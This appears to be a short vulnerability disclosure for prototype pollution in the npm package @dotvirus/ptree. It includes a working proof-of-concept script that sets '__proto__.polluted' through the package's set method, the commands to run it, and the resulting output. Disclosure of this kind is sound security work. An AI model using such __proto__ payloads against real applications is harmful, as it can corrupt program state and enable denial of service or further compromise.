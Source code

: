 # Description

`@dotvirus/ptree` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const ptree = require("@dotvirus/ptree").default

console.log(`Before: ${{}.polluted}`)
const tree = new ptree({})
tree.set("__proto__.polluted", true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @dotvirus/ptree # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

